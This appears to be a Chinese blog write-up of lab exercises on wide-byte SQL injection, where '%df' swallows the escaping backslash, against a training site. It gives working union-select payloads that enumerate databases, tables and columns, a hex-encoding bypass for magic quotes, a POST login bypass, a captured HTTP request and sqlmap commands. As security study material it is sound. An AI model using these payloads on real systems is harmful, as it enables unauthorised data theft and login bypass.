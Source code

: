 ```yaml
---
date: "2020-12-15T00:00:00Z"
description: SQL注入之 宽字节注入, 使用 sqlmap 跑结果
keywords: SQL注入, sqlmap
tags:
- SQL注入
- 安全
- sqlmap
title: SQL注入之 宽字节注入
---
```


# SQL注入之 宽字节注入

> http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1

利用原理： 利用**数据库** 支持的 **多字节** 编码特性， 将 **转义符号 的 `编码` ** 与**`编码`** 顺位组合， 使 **转义符号** 失去原有的意义， 从而达到逃脱的目的。

1. 这里 **多字节**  不一定是 **双字节** 如 （GBK）。 在其他字符集环境下，可能是其他字节， 例如 **UTF-8 的三字节** 。
2. 在最左侧闭合逃脱的时候，可以使用 **宽字节** 方法逃脱 ， 常用的是 **` %df\ `**， 也可以与其他字符码组合。
3. 在 sql 语句中， 如果继续使用 **%df** , 会对 sql 造成误伤（本质上会生成新的字符）， 因此在 sql 语句中，可以使用 **0x??????** 的 **16进制** 符号代替字符串。


# 宽字节注入（一）

## 测试 魔术引号

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%27%22)
```

![](https://nc0.cdn.zkaq.cn/md/8461/3c4c8f104fb3559efeca5a428b37deaa_96008.png)

通过截图发现， ` ' " ` 引号都有被**魔术引号** 转义。 但**括号** 并没有。


因此在处理这几部分的时候， 需要额外注意。


## 判断显示点

```bash
# 查询显示点
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,3 -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/e3dd20b1e8812d0b38bee2be1fcf19fd_15267.png)

通过结果判断， 显示点在 2 和 3 。

## 查询数据库

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,database() -- gg

```

![](https://nc0.cdn.zkaq.cn/md/8461/d39384d8f4fceab19cdc0e71c47d61a6_71069.png)

库名为 `wildchar`

## 查询表

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(table_name) from information_schema.tables where table_schema=database()  ) -- gg
```


![](https://nc0.cdn.zkaq.cn/md/8461/bb31b1fc5bdca1e11245da7f06e2505e_87045.png)


![](https://nc0.cdn.zkaq.cn/md/8461/ef819b2289c90f70c0d15b05c5fe1588_66026.png)

通过结果可以确认， 2张表，分别是

> china_flag,user

## 查询列


```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='china_flag' ) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/bbe183984228d7393e8b0037c7f1545a_14904.png)

> 注意： 在查询表明的时候，同样出现了 **魔术引号** 转义 单引号。


```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%df'china_flag%df' ) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/90cfb7be300a0675559e6bfe0d91a7c3_49592.png)

如果直接使用 `%df'` 的方法， 就会在 sql 查询中出现 异常字符。导致 SQL 失败。
因此， 这里应该选择不出现 **引号，括号** 的方法。


**这里使用 16进制 绕过**   http://ctf.ssleye.com/hex.html

+ 16进制规则， `0x?????`

```
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,( select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6368696E615F666C6167) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/d311c2a04ef7993aabc41e283b0cee2d_93961.png)

## 查询 FLAG

```
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,2,( select group_concat(C_Flag) from china_flag ) -- gg
```

> result : zKaQ-Wide,zKaQ-CAIK,zKaQ-Kzj+mz


# 宽字节注入（二）

```
http://inject2.lab.aqlab.cn:81/Pass-16/index.php?id=1%df%22)%20--%20gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/75ad2c7bda3ab6bcc86128da02fdda90_97691.png)

从提示可以看出， 此处使用 **双引号** 闭合， 与上题单引号类似 ， 下略。


# 宽字节注入 （三） POST

http://inject2.lab.aqlab.cn:81/Pass-17/index.php

通过提交，可以看到， 针对 **单双引号** 开启了转义。

![](https://nc0.cdn.zkaq.cn/md/8461/253ab58af2e47059e90950d54126af4f_87315.png)

同时使用 burpsuite 抓包， 看到所有符号使用了 `urlencode`

![](https://nc0.cdn.zkaq.cn/md/8461/af3e3e701faf016ed6468a5355b8667d_95320.png)

```http
POST /Pass-17/index.php HTTP/1.1
Host: inject2.lab.aqlab.cn:81
Content-Length: 54
Cache-Control: max-age=0
Origin: http://inject2.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inject2.lab.aqlab.cn:81/Pass-17/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close

username=%27%29&password=%22&submit=%E7%99%BB%E5%BD%95
```

## 逃脱转义

```http
username=&password=1%df') or 1=1 -- gg

```

![](https://nc0.cdn.zkaq.cn/md/8461/ab85ecb72ce52361e9c78738458fa2e0_55364.png)

使用 `%df'` 逃脱后， 成功登录

## 查找 flag

```http
username=&password=1%df') and 1=2 union select 1,2,3 -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/bf62da3ac10845c7d82d0fbbf07bc71c_18467.png)

使用 `union select 1,2,3`  及 `union select 1,2,3,4` 后发现， 此题包含 **盲注**。

这里使用 **布尔盲注** 测试

![](https://nc0.cdn.zkaq.cn/md/8461/fd198351fbe383dd6daa725a14f5a425_50926.png)


### 使用  burpsuite 进行探测

准备 http 文件， 并设置注入点 `username=&password=1%df')*`

> 注意

1. 这里在注入点附近加上 `%df')`， 协助 burpsuite 探测更加正确。


```http
POST /Pass-17/index.php HTTP/1.1
Host: inject2.lab.aqlab.cn:81
Content-Length: 56
Cache-Control: max-age=0
Origin: http://inject2.lab.aqlab.cn:81
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inject2.lab.aqlab.cn:81/Pass-17/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Connection: close

username=&password=1%df')*
```

![](https://nc0.cdn.zkaq.cn/md/8461/d310bb8b75298382cd8c846fbabfe731_44258.png)


**当前库** 
```bash
./sqlmap.py -r 1.txt --current-db
```

> reuslt : current database: 'widechar'

**表和字段**

下略。



# 0xZZ 为什么？

为什么使用 urlcode ， 在 sql 显示正常， 但不能查询。

```bash
http://inject2.lab.aqlab.cn:81/Pass-15/index.php?id=1%df' and 1=2 union select 1,999,(  select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%26%23%33%39%3bchina_flag%26%23%33%39%3b) -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/a92ec5605617c4cb65c54a87dd6d1328_86121.png)




